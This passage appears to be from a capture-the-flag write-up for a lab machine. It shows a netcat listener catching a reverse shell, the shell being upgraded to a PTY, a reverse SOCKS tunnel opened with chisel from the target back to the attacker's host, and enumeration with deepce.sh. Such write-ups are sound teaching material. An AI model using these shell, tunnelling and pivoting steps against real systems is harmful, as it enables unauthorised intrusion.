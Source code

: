 - Got it with a `nc` listerner and upgraded it to a pty shell

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.184] 43016
/ $ ^[[6;5Rpython3 -c "import pty;pty.spawn('sh')"
python3 -c "import pty;pty.spawn('sh')"
/ $ ^[[8;5R^Z
zsh: suspended  nc -lvnp 9002
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9002
                               stty rows 39 cols 157
/ $ export TERM=xterm-256color
/ $ 

```

- I'm in a small container with very limited feature, but Im guessing if I tunnel the connection through a SOCKS5 proxy using `chisel` for example, I can get to `dev.` subdomain?
- Got another revshell connection to do other tasks if needed
- I can now access `dev.rainycloud.htb`, looks like the same website, maybe dev mode means more error output?

```bash
proxychains curl http://dev.rainycloud.htb

...

<h1 class="display-3">Welcome to RainyCloud (Dev)!</h1>

...

```

- For a proxy tunnel:

1. On my kali machine:

```bash
chisel server -p 8000 -reverse
```

2. On the target:

```bash
./chisel client 10.10.16.2:8000 R:socks
```

- Scanning and enumerating and running linpeas didn't yield any useful information
- Ran `deepce.sh` and I found some interesting information:

```bash
[+] Interesting environment variables ... No
HOME=/
HOME=/home/jack
HOSTNAME=e84e8d5ecb27                     
INVOCATION_ID=36afb8e8519c4db184eef42f14d9a70f                                                    
JOURNAL_STREAM=8:31431
LANG=en_GB.UTF-8              
LOGNAME=jack                    
OLDPWD=/tmp                        
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin                        
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin                     
PWD=/
PWD=/home/jack                               
PWD=/tmp/test                      
```